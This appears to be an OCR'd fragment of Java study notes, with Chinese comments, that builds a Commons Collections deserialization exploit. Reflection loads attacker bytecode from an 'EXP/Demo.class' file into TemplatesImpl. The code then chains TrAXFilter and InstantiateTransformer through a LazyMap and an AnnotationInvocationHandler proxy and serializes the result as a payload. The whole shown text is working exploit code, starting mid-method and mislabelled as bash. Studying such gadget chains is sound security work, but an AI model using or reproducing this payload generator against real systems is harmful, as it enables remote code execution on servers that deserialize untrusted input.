 ```bash
        //_name赋值，否则代码return中止
        Class tc = Templates.getClass();
        Field nameField = tc.getDeclaredField("_name");
        nameField.setAccessible(true);
        nameField.set(Templates,"aaa");
        //private byte[][] _bytecodes = null;如果为null，报出异常；
        //同时满足这个loader.defineClass(_bytecodes[i]);
        //Class defineClass(final byte[] b) {
        //            return defineClass(null, b, 0, b.length);
        //        }
        Field bytecodeField = tc.getDeclaredField("_bytecodes");
        bytecodeField.setAccessible(true);
        //一维数组满足defineClass参数从而命令执行
        byte[] code = Files.readAllBytes(Paths.get("D://Tomcat/CC/target/classes/EXP/Demo.class"));
        //二维数组满足：
        // private byte[][] _bytecodes = null;如果为null，报出异常；
        //同时满足这个loader.defineClass(_bytecodes[i]);
        byte[][] codes = {code};
        bytecodeField.set(Templates,codes);
//    避免_tfactory 为空指针而报错
//    TemplatesImpl.TransletClassLoader loader = (TemplatesImpl.TransletClassLoader)
//            AccessController.doPrivileged(new PrivilegedAction() {
//                public Object run() {
//                    return new TemplatesImpl.TransletClassLoader(ObjectFactory.findClassLoader(),_tfactory.getExternalExtensionsMap());
//                }
//            });
        Field tfactoryField = tc.getDeclaredField("_tfactory");
        tfactoryField.setAccessible(true);
        tfactoryField.set(Templates,new TransformerFactoryImpl());

//        templates.newTransformer();
//        InstantiateTransformer instantiateTransformer = new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates});
//        instantiateTransformer.transform(TrAXFilter.class);//类不能序列化，class 可以
        Transformer[] Transformers = new Transformer[]{
                new ConstantTransformer(TrAXFilter.class),
                new InstantiateTransformer(new Class[]{Templates.class},new Object[]{Templates})

        };
        ChainedTransformer chainedTransformer = new ChainedTransformer(Transformers);
//        chainedTransformer.transform(1);


        HashMap<Object,Object> map = new HashMap<>();
        Map<Object,Object> Lazymap = LazyMap.decorate(map,chainedTransformer);


        Class c = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
        Constructor annotationInvocationhdlConstructor = c.getDeclaredConstructor(Class.class,Map.class);
        annotationInvocationhdlConstructor.setAccessible(true);
        InvocationHandler h = (InvocationHandler) annotationInvocationhdlConstructor.newInstance(Target.class,Lazymap);
//动态代理
        Map mapProxy = (Map) Proxy.newProxyInstance(LazyMap.class.getClassLoader(),new Class[]{Map.class},h);
        Object o = annotationInvocationhdlConstructor.newInstance(Override.class,mapProxy);


        serialize(o);
//        unserialize("ser.bin");
    }
```